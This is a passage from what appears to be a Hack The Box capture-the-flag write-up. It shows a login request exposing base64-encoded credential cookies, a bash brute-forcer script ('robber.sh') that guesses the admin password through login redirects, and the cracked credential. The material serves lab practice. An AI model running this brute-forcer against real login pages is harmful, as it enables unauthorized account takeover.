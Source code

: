 Interesting. There's a message to tell us that a new user was created. What happens when we log in?

```
# curl -i -d "username=dipshit&password=dipshit" http://10.10.10.154/login.php
HTTP/1.1 302 Found
Date: Tue, 24 Sep 2019 02:55:08 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Set-Cookie: id=25
Set-Cookie: username=ZGlwc2hpdA%3D%3D
Set-Cookie: password=ZGlwc2hpdA%3D%3D
Location: user
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Hmm. Cookie-based authentication??!! Look at the redirection? To `/user`! Previously in our enumeration, the directory `/admin` was also present along with `/user`. If I had to guess, I would say that admin logon gets redirected to `/admin`. With that in mind, I wrote the following brute-forcer script of sorts, using `curl` as the main driver.

<div class="filename"><span>robber.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.154
USER=admin
PASS=$1

function die() {
  killall perl &>/dev/null
}

CHECK=$(curl -i \
             -s \
             -d "username=$USER&password=$PASS" \
             http://$HOST/login.php \
  | grep -E '^Location')

if grep 'admin' <<<"$CHECK" &>/dev/null; then
  echo "[*] Password is: $PASS"
  die
fi
```

Combined with GNU Parallel, we get a poor man version's of a multi-threaded brute-forcer. It took me a while to brute-force the passsword. The credential is (`admin:hopelessromantic`).

Let's check it out.


{% include image.html image_alt="2ed0a32c.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/2ed0a32c.png" %}



[1]: https://www.hackthebox.eu/home/machines/profile/209
[2]: https://www.hackthebox.eu/home/users/profile/3244
[3]: https://www.hackthebox.eu/home/users/profile/623
[4]: https://www.hackthebox.eu/